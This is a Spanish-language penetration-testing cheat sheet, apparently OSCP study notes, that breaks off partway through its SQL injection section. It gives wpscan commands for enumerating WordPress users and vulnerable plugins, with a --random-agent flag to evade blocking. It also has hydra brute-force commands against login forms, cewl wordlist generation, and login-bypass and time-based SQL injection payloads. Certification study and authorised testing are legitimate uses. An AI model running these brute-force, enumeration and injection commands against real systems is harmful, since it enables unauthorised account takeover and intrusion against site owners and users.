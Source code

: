 `wpscan -u "http://ip/" `

En caso de que la web principal del gestor de contenido se encuentre en otra ruta personalizada, por ejemplo /invent-wordpress/, deberemos especificarlo a través del parámetro --wp-content-dir para la correcta enumeración desde wpscan:

`wpscan -u "http://ip/" --wp-content-dir "invent-wordpress"` # Escaner WP con la ruta modificada

Proseguimos a encontrar usuarios validos para 'WP'.

`wpscan -u "http://ip/" --enumerate u` # Enumeramos usuarios

`wpscan -u "http://ip/" --username usuario -w /usr/share/SecList/Usernames/xato-usernames-top-1millions-20000.txt` # Enumeramos usuarios con wordlists.

Una forma de bypassear posibles bloqueos es jugar con el parámetro --random-agent, de la siguiente forma:

`$~ wpscan -u "http://ip/" --username usuario -w /usr/share/SecList/Usernames/xato-usernames-top-1millions-20000.txt  --random-agent`

Tambien es posible enumerar usuarios validos si aplicamos fuerza bruta con hydra. Tenemos que ver si hay fuga de información.

`hydra -L dict_Users.txt -p test <ip> "http-post-form" "/path_login.php:user=^USER^&password=^PASS^:F=messageError"` # Fuerza bruta WP para listar usuarios.

`hydra -l admin -P dict_Password.txt <ip> "http-post-form" "/path_login.php:user=^USER^&password=^PASS^:F=messageError"` # Fuerza bruta WP para el usuario admin.

Es importante ver si la web cuenta con contenido escrito. Esto es importante para poder crear nuestro propio diccionario de palabras claves.

`cewl -w diccionario http://ip/ --with-numbers ` # aplicamos cewl, esto nos hará un diccionario con palabras clave de la web.

Enumerar y detectar pluggins vulnerables tambien ayudaran a la intrusión.

`wpscan --url http(s)://ip/ --enumerate vp` # "vp" Detectará pluggins vulnerable

`wpscan --url http(s)://ip/ --enumerate p` # "p" Detectará todos los pluggins

`wpscan --url http(s)://ip/ --enumerate p --plugins-detection aggressive` # Detectará todos los pluggins, con un parametro agresivo. Recomendable.

# SQLI
*SqlMap no está permitido en el OSCP*

**Inyección basica de error**

`admin' or 1=1;-- -` # Inyección en panel de login

**Inyección por tiempo**

`admin' or sleep(5);-- -` # Inyección en panel de login, controlada por el tiempo de respuesta. En este caso, 5 segundos.

**Enumeración de caracteres en la base de datos**

*Para esta enumeración, es necesario conocer algún dato valido ya que usamos el operador "AND".*
